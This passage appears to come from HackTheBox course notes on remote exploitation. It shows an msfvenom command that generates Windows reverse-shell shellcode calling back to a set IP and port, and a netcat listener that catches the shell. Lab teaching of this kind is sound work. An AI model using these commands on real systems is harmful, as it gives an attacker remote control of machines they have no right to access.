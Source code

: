 ## Remote Exploitation : 

First, we need to find our machine's IP, which should be reachable by the remote server (in the same network subnet).

Next, we will generate the shellcode that will send us a reverse shell, which we can get with the `windows/shell_reverse_tcp` payload in `msfvenom`, as follows :

```shell-session
NolanCarougeHTB@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python'
```

After that, we can start a `netcat` listener to receive the reverse shell, as follows :

```shell-session
NolanCarougeHTB@htb[/htb]$ nc -lvnp 1234
```

